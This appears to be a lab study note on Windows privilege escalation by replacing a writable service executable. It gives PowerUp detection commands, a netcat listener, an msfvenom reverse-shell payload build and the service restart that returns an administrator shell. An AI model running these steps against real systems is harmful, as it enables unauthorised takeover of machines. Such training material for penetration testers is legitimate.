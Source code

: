 
# <span style="color:lightblue">Executable Files</span>

## <span style="color:lightgreen">Methodology</span>
Microsoft Windows services, formerly known as NT services, enable you to create long-running executable applications that run in their own Windows sessions. These services can be automatically started when the computer boots, can be paused and restarted, and do not show any user interface.

Hence if we get Full Contol permission over the file path location, we can drop our malicious executable file to gain administrator access.

## <span style="color:lightgreen">Detection</span>

1. Run Powerup.ps1 and Run `Invoke-AllChecks` (check the service executable field)
```console
C:\Temp> powershell -ep bypass
PS C:\Temp>. .\PowerUp.sp1
PS C:\Temp> Invoke-AllChecks
```

![image](https://github.com/AbdullahZuhair21/CRTP/assets/154827329/d4167972-4387-4324-a03b-d9a4e951b055)


We can see that we have Modifiable File access to `"c:\Program Files\File Permissions Service\filepermservice.exe"`. To gain administrator access, we can drop our malicious executable file on this location.

## <span style="color:lightgreen">Exploitation</span>

### Kali VM

1. Start a netcat listener
```console
$ sudo nc -nvlp 53
```

2. Open an additional command prompt and type: 
```console
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=[tun0 IP] LPORT=53 -f exe -o x.exe
```

3. Copy the generated file `x.exe`, to the Windows VM and replace it over  `filepermsvc.exe`.

### Windows VM

1. In command prompt type: 
```console
C:\Temp> sc start filepermsvc
```

### Kali VM

1. Wait for a reverse shell on your kali machine.
